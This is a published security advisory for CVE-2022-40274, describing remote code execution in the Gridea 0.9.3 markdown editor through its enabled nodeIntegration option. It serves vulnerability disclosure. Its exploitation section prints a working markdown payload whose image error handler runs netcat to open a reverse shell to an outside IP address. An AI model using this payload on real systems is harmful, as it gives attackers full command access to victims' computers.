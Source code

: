 ```yaml
---
slug: advisories/marshmello/
title: Gridea 0.9.3  -  RCE via nodeIntegration feature
authors: Carlos Bello
writer: cbello
codename: marshmello
product: Gridea 0.9.3
date: 2022-09-26 02:30 COT
cveid: CVE-2022-40274
severity: 8.6
description: Gridea 0.9.3  -  RCE via nodeIntegration feature
keywords: Fluid Attacks, Security, Vulnerabilities, Gridea
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Gridea 0.9.3  -  RCE via nodeIntegration feature       |
| **Code name**         | [Marshmello](https://en.wikipedia.org/wiki/Marshmello) |
| **Product**           | Gridea                                                 |
| **Affected versions** | Version 0.9.3                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.6                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40274](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40274)                        |

## Description

Gridea version 0.9.3 allows an external attacker to execute arbitrary
code remotely on any client attempting to view a malicious markdown
file through Gridea. This is possible because the application has the
`nodeIntegration` option enabled.

## Vulnerability

This vulnerability occurs because the application has the `nodeIntegration`
option enabled.  Due to the above, an attacker can embed malicious JS code
in a markdown file and send it to the victim for viewing to achieve an RCE.

## Exploitation

To exploit this vulnerability, you must send the following file to a user to
open with Gridea. The exploit is triggered when the user presses `CTRL+P` or
simply clicks `preview`.

### exploit.md

```markdown
<img src=1 onerror="require('child_process').exec('nc 192.168.20.38 4444 -e /bin/bash');"/>
```

## Evidence of exploitation

![RCE-Gridea](https://user-images.githubusercontent.com/51862990/189430881-5d6db562-d650-42c1-af7b-bc0626d9dc89.gif)

## Our security police

We have reserved the CVE-2022-40274 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Gridea 0.9.3

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/getgridea/gridea>

## Timeline

<time-lapse
  discovered="2022-09-08"
  contacted="2022-09-08"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
